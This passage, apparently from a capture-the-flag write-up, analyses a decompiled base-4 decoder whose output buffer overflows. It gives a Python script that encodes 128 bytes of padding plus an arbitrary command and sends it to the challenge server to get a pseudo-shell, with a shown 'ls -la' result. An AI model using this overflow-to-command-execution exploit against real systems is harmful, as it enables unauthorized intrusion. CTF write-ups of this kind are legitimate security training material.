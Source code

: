 ```c
      goto LABEL_12;
    }
  }
  *ptr_godat = n;
  return 0LL;
}
```
This function simply performs the base conversion from 4 to 10 of our input stored at `gidat` and then stores the result in...`godat`!!
We can write up to 1024-bytes at `gidat` and the conversion is done reading 4-bytes at a time at `gidat` and writing 1 byte representing the converted value at `godat`, so there can be overflow!

We need a payload that after being decoded looks like this: `|PADDING_128_BYTES|CMD|`.

Since we had some issues with pwntools interactive mode, due to SSL, we wrote a dirty python script to simulate a shell.

```python
#!/usr/bin/env python2
import requests
import string
import sys

charset = "ACGT"

#found somewhere on the internet
def base10toN(num,n):
    new_num_string=''
    current=num
    while current!=0:
        remainder=current%n
        if 36>remainder>9:
            remainder_string=string.lowercase[remainder-10]
        elif remainder>=36:
            remainder_string='('+str(remainder)+')'
        else:
            remainder_string=str(remainder)
        new_num_string=remainder_string+new_num_string
        current=current/n
    return new_num_string

def encode(s):
  e = ""
  for c in s:
    n = base10toN(ord(c),4).rjust(4, "0")
    for d in n:
      e += charset[int(d)]
  return e

while True:
    cmd = "A"*128+raw_input("> ")+"\x00"
    pay = encode(cmd)
    resp = requests.post("https://gcorp-stage-2.ctf.insecurity-insa.fr", data=pay).text.replace(cmd, "")
    if resp[-1] != "\n":
        resp += "\n"
    sys.stdout.write(resp)
```
We can now run our exploit:
```
$ ./exploit.py
> ls -la
total 916
drwxr-xr-x    1 gcorp    root          4096 Apr  7 10:07 .
drwxr-xr-x    1 root     root          4096 Apr  7 10:07 ..
```